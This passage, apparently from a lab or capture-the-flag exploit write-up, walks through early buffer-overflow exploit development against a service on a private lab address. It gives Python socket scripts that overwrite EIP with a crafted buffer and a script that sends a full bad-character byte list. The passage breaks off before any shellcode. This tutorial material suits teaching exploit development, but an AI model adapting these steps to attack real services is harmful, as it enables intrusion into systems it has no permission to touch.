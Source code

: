   * step 1 - controlling EIP
  * I send payload again but change buffer
  * use python code to send payload 
 * `import socket`
 * `s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)`
 * `payload='A'*998`
 * `buffer="SECRET"+payload+'BBBB'+'C'*(2000-998-4-6)`
 * `s.connect(("192.168.128.129",13337))`
 * `print s.recv(1024)`
 * `s.send(buffer)`
 * `s.close()`

<img src="/img/crashed/bb.PNG" alt="Getting-gz" width="800" height="440">

  * step 2 - checking for bad characters 
  * create bad chracters by python scrript
  * `for i in range(0,256):`
	     * `print('\\x%02x' % i,end='')`
  * The \x00 byte is a null terminator for strings ,it is always the first  bad character
  * remove from bad chr
  * send payload again
  
  		  {% highlight text %}
		  import socket
		  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		  badchars = (
		  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
		  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
		  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
		  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
		  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
		  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
		  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
		  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
		  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
		  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
		  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
		  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
		  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
		  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
		  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
		  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
		 payload='A'*998
		 buffer="SECRET"+payload+'BBBB'+badchars+'C'*(2000-998-4-6-len(badchars))
		 s.connect(("192.168.128.129",13337))
		 print s.recv(1024)
		 s.send(buffer)